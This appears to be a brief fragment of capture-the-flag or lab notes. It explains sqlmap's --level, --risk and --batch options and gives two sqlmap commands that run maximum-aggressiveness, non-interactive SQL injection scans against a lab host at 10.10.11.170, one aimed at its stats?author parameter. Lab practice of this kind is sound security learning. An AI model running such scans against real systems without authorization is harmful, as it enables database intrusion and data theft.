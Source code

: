 --level=5 highest level
--risk=3 highest level 
--batch - run without asking any questions

sqlmap -u http://10.10.11.170:8080/ --batch


sqlmap -u http://10.10.11.170:8080/stats?author=woodenk --level=5 --risk=3 --batch
